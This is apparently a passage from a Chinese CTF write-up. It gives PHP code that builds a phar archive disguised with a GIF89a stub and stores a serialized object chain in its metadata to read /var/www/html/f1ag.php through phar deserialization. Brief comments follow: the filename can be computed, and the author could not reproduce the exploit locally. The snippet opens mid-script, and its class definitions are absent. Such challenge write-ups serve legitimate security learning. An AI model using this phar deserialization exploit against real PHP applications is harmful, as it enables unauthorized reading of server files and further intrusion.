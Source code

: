 ```php
$d=array("str"=>$c);
$e=array("source"=>"/var/www/html/f1ag.php");//绝对路径


$c->params=$e;
$b->str=$d;
$b->source='file';
$a->str=$b;
    @unlink("xlccccc.phar");


    $phar = new Phar("xlccccc.phar"); //通过内置的Phar类实例化，后缀名必须为phar

    $phar->startBuffering(); //开始缓冲 Phar 写操作，不要修改磁盘上的 Phar 对象
    //可以理解为必须的操作，与stopBuffering()配对使用

    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub

    
    $phar->setMetadata($a); //将自定义的meta-data存入manifest
    
    $phar->addFromString("exp.txt", "123"); //添加要压缩的文件
    //签名自动计算
    
    $phar->stopBuffering();
?>
```

文件名可以自己算出来

反正本地试不出来，很迷，可能是版本的问题？
